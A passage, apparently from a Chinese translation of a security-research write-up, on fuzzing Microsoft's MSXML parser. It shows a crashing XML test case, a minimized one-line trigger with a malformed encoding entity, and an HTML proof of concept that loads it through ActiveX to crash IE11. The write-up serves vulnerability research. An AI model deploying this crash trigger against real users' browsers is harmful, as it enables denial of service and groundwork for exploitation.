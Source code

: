 ```
-- cut --
```

[![](https://p1.ssl.qhimg.com/t01bc6452c64e0e9877.png)](https://p1.ssl.qhimg.com/t01bc6452c64e0e9877.png)

让我们来看一个造成崩溃的 xml：

```
C:UsersIEUserDesktopxml_validate_resultsfuzzer01crashes&gt;type id_000000_00
&lt;?xml version="&amp;a;1.0"?&gt;
&lt;book xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
      xsi:noNamespaceSchemaLocation="nn.xsd"
      id="bk101"&gt;
   &lt;author&gt;Gambardella, Matthew&lt;/author&gt;
   &lt;title&gt;XML Developer's Guide&lt;/title&gt;
   &lt;genre&gt;Computer&lt;/genre&gt;
   &lt;price&gt;44.95&lt;/price&gt;
   &lt;publish_date&gt;2000-10-01&lt;/publish_date&gt;
   &lt;description&gt;An in-depth look at creating applications with
   XML.&lt;/description&gt;
```

正如你看到的，如果我们在 xml 或者其编码后提供了一些 garbage，就会得到上面的崩溃。Mitja 还将测试用例减到最小，如下所示：

```
&lt;?xml version='1.0' encoding='&amp;aaa;'?&gt;
```

对该库进行模糊测试的整个思想，是基于在 IE 上下文中找到一个漏洞并以某种方法触发它。经过一番搜索，让我们使用下面的 Poc（crashme.html），看看它是否会使 IE11 崩溃：

```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
&lt;head&gt;
&lt;/head&gt;
&lt;body&gt;
&lt;script&gt;
var xmlDoc = new ActiveXObject("Msxml2.DOMDocument.6.0");
xmlDoc.async = false;
xmlDoc.load("crashme.xml");
if (xmlDoc.parseError.errorCode != 0) `{`
   var myErr = xmlDoc.parseError;
   console.log("You have error " + myErr.reason);
`}` else `{`
   console.log(xmlDoc.xml);
`}`
&lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
```

在 Python 的 SimpleHTTPServer 中运行它，提供下面的东西：

[![](https://p1.ssl.qhimg.com/t01f5e12a967f1b4e4e.png)](https://p1.ssl.qhimg.com/t01f5e12a967f1b4e4e.png)
